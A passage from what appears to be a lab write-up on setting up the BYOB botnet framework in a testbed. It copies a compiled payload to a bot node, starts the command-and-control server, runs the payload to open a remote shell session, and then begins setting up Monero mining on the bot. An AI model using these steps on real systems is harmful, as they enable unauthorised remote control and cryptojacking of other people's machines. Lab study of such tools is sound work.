 We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Monero Blockchain Synchronization
Before the actual mining starts, the blockchain consisting of Monero Ledger needs to be synchronized. This is of a significant size and can take hours to fetch onto our node. It is to be noted that the entire mining environment setup will be done on `b1` node, because it is the node which does the actual mining. The environment setup is done with these references - [Documentation](https://www.getmonero.org/resources/user-guides/verification-allos-advanced.html) & [Walkthrough Video](https://youtu.be/wMY_Sx3o26k?si=n3eNpRYwcr-rGTRC).


[wallet 42Mt2H]: address